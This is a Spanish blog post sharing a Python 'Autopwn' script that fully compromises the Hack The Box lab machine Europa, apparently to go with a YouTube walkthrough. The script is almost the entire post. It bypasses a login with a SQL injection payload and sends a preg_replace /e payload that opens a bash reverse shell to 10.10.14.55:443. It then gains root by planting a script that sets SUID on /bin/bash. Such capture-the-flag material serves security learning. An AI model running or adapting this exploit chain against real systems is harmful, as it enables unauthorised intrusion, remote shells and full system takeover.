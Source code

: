 ```yaml
---
layout: single
title: Europa - Hack The Box
excerpt: "Una máquina muy interesante la cual resolvemos en mi canal de YouTube. En este caso, os comparto el script `Autopwn` que nos habíamos configurado en Python, donde tras su ejecución se nos automatiza la intrusión y la escalada de privilegios mediante el uso de la librería pwn."
date: 2020-01-31
classes: wide
header:
  teaser: /assets/images/htb-writeup-europa/europa_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Autopwn
tags:
  - Sqli
  - Web Exploiting
  - Privilege Escalation
  - Python
---
```


<p align="center">
<img src="/assets/images/htb-writeup-europa/europa_logo.png">
</p>

Una máquina muy interesante la cual resolvemos en mi canal de YouTube. En este caso, os comparto el script `Autopwn` que nos habíamos configurado en Python, donde tras su ejecución se nos automatiza la intrusión y la escalada de privilegios mediante el uso de la librería pwn.

Para los interesados en la resolución de esta máquina, os dejo el enlace al vídeo que subí a mi canal:

- [Máquina Europa - HackTheBox](https://www.youtube.com/watch?v=wOm4OOBLbys)

## Script Autopwn

```python
#!/usr/bin/python
#coding: utf-8

# Author: s4vitar https://www.youtube.com/watch?v=wOm4OOBLbys

import requests, sys, urllib3, signal, time, threading
from pwn import *

# Declaración de variables
url = "https://admin-portal.europacorp.htb/login.php"
url_openvpn = "https://admin-portal.europacorp.htb/tools.php"
lport = 443

signal.signal(signal.SIGINT, signal.SIG_DFL)

def obtainShell():

 s = None

 try:
  urllib3.disable_warnings()
  s = requests.session()
  s.verify = False
  s.keep_alive = False

  login_data = {
   'email' : "admin@europacorp.htb' OR '1' = '1",
   'password' : 'admin'
  }

  p1 = log.progress("Login")
  p1.status('Realizando inyección SQL')
  time.sleep(2)

  r = s.post(url, data=login_data)

  p1.status('Inyección SQL enviada')
  time.sleep(2)

  if "Dashboard" in r.text:
   p1.success("Inyección SQL realizada con éxito")
   time.sleep(1)
   log.success("Acceso al Dashboard garantizado")
   time.sleep(1)
  else:
   p1.failure("No ha sido posible realizar la inyección SQL")
   sys.exit()

  p2 = log.progress("Explotación")
  p2.status("Creando un nuevo fichero de configuración VPN")
  time.sleep(2)

  openvpn_config_file_data = {
   'pattern' : '/ip_address/e',
   'ipaddress' : """system("bash -c 'bash -i > /dev/tcp/10.10.14.55/443 0>&1'")""",
   'text' : 'ip_address = s4vitar'
  }

  p2.status("Enviando petición al servidor")
  time.sleep(2)

  r = s.post(url_openvpn, data=openvpn_config_file_data, timeout=1)

  p2.success("Petición enviada con éxito")
  time.sleep(1)

 except requests.exceptions.ReadTimeout:
  p2.success("Petición enviada con éxito")
  time.sleep(1)

 except:
  print "\n[*] Ha ocurrido un error...\n"
  sys.exit()

if __name__ == '__main__':

 try:
  threading.Thread(target=obtainShell).start()
 except Exception as e:
  log.error(str(e))

 shell = listen(lport, timeout=20).wait_for_connection()

 if shell.sock is None:
  log.failure("No se ha obtenido ninguna conexión")
  sys.exit()
 else:
  log.success("Se ha obtenido una conexión")
  time.sleep(1)
  log.info("Acceso al sistema como usuario www-data")
  time.sleep(1)

 p3 = log.progress("Escalación de privilegios")
 p3.status("Creando fichero logcleared.sh en el sistema")
 time.sleep(2)
 shell.sendline("echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /var/www/cmd/logcleared.sh; chmod +x /var/www/cmd/logcleared.sh")
 p3.status("Archivo logcleared.sh creado")
 time.sleep(120)
 p3.status("Obteniendo shell como root")
 shell.sendline("bash -p")
 p3.success("Pwned!!")
 shell.interactive()

 sys.exit()
```